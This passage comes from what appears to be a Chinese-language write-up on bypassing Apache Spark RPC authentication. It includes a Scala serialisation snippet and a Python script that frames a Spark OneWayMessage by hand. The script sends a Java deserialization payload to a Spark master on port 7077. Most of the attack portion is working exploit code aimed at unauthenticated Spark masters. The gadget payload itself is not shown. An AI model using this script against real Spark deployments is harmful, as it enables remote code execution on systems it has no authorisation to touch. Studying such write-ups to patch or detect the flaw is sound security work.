```
    bos.toByteBuffer
  }

  private def writeRpcAddress(out: DataOutputStream, rpcAddress: RpcAddress): Unit = {
    if (rpcAddress == null) {
      out.writeBoolean(false)
    } else {
      out.writeBoolean(true)
      out.writeUTF(rpcAddress.host)
      out.writeInt(rpcAddress.port)
    }
  }

```


以 OneWayMessage 举例

![](/img/spark_bypass_auth/message_netty_header.png)

构造payload
```
def build_oneway_msg(payload):
    msg_type = b'\x09'
    other_msg = '''
    01 00 0f 31 39 32 2e 31 36 38 2e 31 30 31
2e 31 32 39 00 00 89 6f 01 00 06 75 62 75 6e 74
75 00 00 1b a5 00 06 4d 61 73 74 65 72
    '''
    other_msg = other_msg.replace('\n', "").replace(' ', "")
    body_msg = bytes.fromhex(other_msg) + payload
    msg = struct.pack('>Q',len(body_msg) + 21) + msg_type 
    msg += struct.pack('>I',len(body_msg))
    msg += body_msg
    return msg

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(100)
server_address = ('192.168.101.129', 7077)
sock.connect(server_address)
# get ser_payload  构造java 反序列化payload 
payload = build_oneway_msg(ser_payload)
sock.send(payload)
time.sleep(5)
# data = sock.recv(1024)
sock.close()
```
